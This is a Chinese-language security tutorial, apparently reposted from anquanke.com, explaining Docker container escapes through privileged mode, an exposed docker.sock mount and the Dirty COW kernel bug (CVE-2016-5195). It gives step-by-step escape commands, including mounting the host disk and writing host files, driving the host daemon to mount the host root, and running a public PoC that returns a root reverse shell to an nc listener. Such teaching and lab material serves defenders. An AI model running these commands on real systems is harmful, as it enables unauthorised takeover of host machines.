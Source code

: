 > 原文链接: https://www.anquanke.com//post/id/179623 


# Docker逃逸初探


                                阅读量   
                                **526568**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">10</a>
                                </b>
                                                                                    



[![](https://p3.ssl.qhimg.com/t01e43e4658ca676011.png)](https://p3.ssl.qhimg.com/t01e43e4658ca676011.png)



Docker是当今使用范围最广的开源容器技术之一，具有高效易用的优点。然而如果使用Docker时采取不当安全策略，则可能导致系统面临安全威胁。

本期安仔课堂，ISEC实验室的张老师将为大家介绍不同环境下，Docker逃逸至外部宿主机的情况。



## 一、配置特权模式时的逃逸情况

### <a name="%EF%BC%88%E4%B8%80%EF%BC%89%E2%80%94privileged%EF%BC%88%E7%89%B9%E6%9D%83%E6%A8%A1%E5%BC%8F%EF%BC%89"></a>（一）—privileged（特权模式）

特权模式于版本0.6时被引入Docker，允许容器内的root拥有外部物理机root权限，而此前容器内root用户仅拥有外部物理机普通用户权限。

使用特权模式启动容器，可以获取大量设备文件访问权限。因为当管理员执行docker run —privileged时，Docker容器将被允许访问主机上的所有设备，并可以执行mount命令进行挂载。

当控制使用特权模式启动的容器时，docker管理员可通过mount命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

具体步骤如下：

1.以特权模式运行一个容器：docker run -it —privileged ubuntu:14.04 /bin/bash

2.查看磁盘文件：fdisk -l

[![](https://p5.ssl.qhimg.com/t017d4a9fc96466e2de.png)](https://p5.ssl.qhimg.com/t017d4a9fc96466e2de.png)

图1

3.此时查看/dev/路径会发现很多设备文件：ls /dev

[![](https://p5.ssl.qhimg.com/t01c8eebbc4541365b6.png)](https://p5.ssl.qhimg.com/t01c8eebbc4541365b6.png)

图2

4.新建目录以备挂载：mkdir /abc

5.将/dev/sda1挂载至 /abc: mount /dev/sda1 /abc

6.最终我们可以通过访问容器内部的/abc路径来达到访问整个宿主机的目的：ls /abc

[![](https://p4.ssl.qhimg.com/t01e3e48c084f5b1d88.png)](https://p4.ssl.qhimg.com/t01e3e48c084f5b1d88.png)

图3

7.尝试写文件到宿主机：echo 123 &gt; /abc/home/botasky/escape2

[![](https://p1.ssl.qhimg.com/t01bc257ae79e6cf6b5.png)](https://p1.ssl.qhimg.com/t01bc257ae79e6cf6b5.png)

图4

8.查看宿主机中的文件：ls /home/botasky/escape2

[![](https://p1.ssl.qhimg.com/t01ff154cd62f935911.png)](https://p1.ssl.qhimg.com/t01ff154cd62f935911.png)

图5

### <a name="%EF%BC%88%E4%BA%8C%EF%BC%89%E2%80%94cap-add%E4%B8%8ESYS_ADMIN"></a>（二）—cap-add与SYS_ADMIN

Linux内核自版本2.2起引入功能（capabilities）机制，打破了UNIX/LINUX操作系统中超级用户与普通用户的概念，允许普通用户执行超级用户权限方能运行的命令。

截至Linux 3.0版本，Linux中共有38种capabilities。Docker容器默认限制为14个capabilities，管理员可以使用—cap-add和—cap-drop选项为容器精确配置capabilities。

当容器使用特权模式启动时，将被赋予所有capabilities。此外，在—cap-add的诸多选项中，SYSADMIN意为container进程允许执行mount、umount等一系列系统管理操作，因此当容器以—cap-add=SYSADMIN启动时，也将面临威胁。



## 二、挂载配置不当时的逃逸情况

### <a name="%EF%BC%88%E4%B8%80%EF%BC%89%E5%8D%B1%E9%99%A9%E7%9A%84Docker.sock"></a>（一）危险的Docker.sock

众所周知，Docker采用C/S架构，我们平常使用的Docker命令中，docker即为client，Server端的角色由docker daemon扮演，二者之间通信方式有以下3种：

[![](https://p4.ssl.qhimg.com/t01540c3e5937facd5b.jpg)](https://p4.ssl.qhimg.com/t01540c3e5937facd5b.jpg)

图6

其中使用docker.sock进行通信为默认方式，当容器中进程需在生产过程中与Docker守护进程通信时，容器本身需要挂载/var/run/docker.sock文件。

本质上而言，能够访问docker socket 或连接HTTPS API的进程可以执行Docker服务能够运行的任意命令，以root权限运行的Docker服务通常可以访问整个主机系统。

因此，当容器访问docker socket时，我们可通过与docker daemon的通信对其进行恶意操纵完成逃逸。若容器A可以访问docker socket，我们便可在其内部安装client（docker），通过docker.sock与宿主机的server（docker daemon）进行交互，运行并切换至不安全的容器B，最终在容器B中控制宿主机。

具体步骤如下：

1.运行一个挂载/var/run/的容器：docker run -it -v /var/run/:/host/var/run/ ubuntu:14.04 /bin/bash

2.在容器内安装Docker作为client(此步骤可能需要更换源)：apt-get install docker.io

3.查看宿主机Docker信息：docker -H unix:///host/var/run/docker.sock info

[![](https://p1.ssl.qhimg.com/t0138c69f1e8530c650.png)](https://p1.ssl.qhimg.com/t0138c69f1e8530c650.png)

图7

4.运行一个新容器并挂载宿主机根路径：docker -H unix:///host/var/run/docker.sock run -v /:/aa -it ubuntu:14.04 /bin/bash

可以看见@符号后的Docker ID已经发生变化：

[![](https://p5.ssl.qhimg.com/t01546eb1f4da42de67.png)](https://p5.ssl.qhimg.com/t01546eb1f4da42de67.png)

图8

5.在新容器/aa路径下完成对宿主机资源的访问：ls /aa

[![](https://p2.ssl.qhimg.com/t01e8cef2efdc4bc94a.png)](https://p2.ssl.qhimg.com/t01e8cef2efdc4bc94a.png)

图9



## 三、存在Dirty Cow漏洞时的逃逸情况

### <a name="%EF%BC%88%E4%B8%80%EF%BC%89%E8%84%8F%E7%89%9B%E6%BC%8F%E6%B4%9E(CVE-2016-5195)%E4%B8%8EVDSO(%E8%99%9A%E6%8B%9F%E5%8A%A8%E6%80%81%E5%85%B1%E4%BA%AB%E5%AF%B9%E8%B1%A1)"></a>（一）脏牛漏洞(CVE-2016-5195)与VDSO(虚拟动态共享对象)

Dirty Cow（CVE-2016-5195）是Linux内核中的权限提升漏洞，源于Linux内核的内存子系统在处理写入时拷贝（copy-on-write, Cow）存在竞争条件（race condition），允许恶意用户提权获取其他只读内存映射的写访问权限。

竞争条件意为任务执行顺序异常，可能导致应用崩溃或面临攻击者的代码执行威胁。利用该漏洞，攻击者可在其目标系统内提升权限，甚至获得root权限。VDSO就是Virtual Dynamic Shared Object（虚拟动态共享对象），即内核提供的虚拟.so。该.so文件位于内核而非磁盘，程序启动时，内核把包含某.so的内存页映射入其内存空间，对应程序就可作为普通.so使用其中的函数。

在容器中利用VDSO内存空间中的“clock_gettime() ”函数可对脏牛漏洞发起攻击，令系统崩溃并获得root权限的shell，且浏览容器之外主机上的文件。

### <a name="%EF%BC%88%E4%BA%8C%EF%BC%89PoC&amp;%E9%AA%8C%E8%AF%81%E7%8E%AF%E5%A2%83"></a>（二）PoC&amp;验证环境

GitHub上已有人提供了测试环境与PoC，我们可以通过以下命令获取。

[![](https://p2.ssl.qhimg.com/t01c46820afd589e692.bmp)](https://p2.ssl.qhimg.com/t01c46820afd589e692.bmp)

图10
1. 运行验证容器：docker-compose run dirtycow /bin/bash<br>[![](https://p1.ssl.qhimg.com/t01678de892c44c7df9.png)](https://p1.ssl.qhimg.com/t01678de892c44c7df9.png)图11
1. 本地开启nc，进行观察（PoC中设置的反弹地址为本地的1234端口）：nc -lvp 1234
<li>编译PoC并运行，等待shell反弹：make &amp;./0xdeadbeef<br>
通过ID命令，可以发现这个shell为root权限：<br>[![](https://p4.ssl.qhimg.com/t0132508743289d09dd.png)](https://p4.ssl.qhimg.com/t0132508743289d09dd.png)<br>
图12</li>


## 参考&amp;引用

[![](https://p5.ssl.qhimg.com/t01d346ecdb83ddd32e.png)](https://p5.ssl.qhimg.com/t01d346ecdb83ddd32e.png)
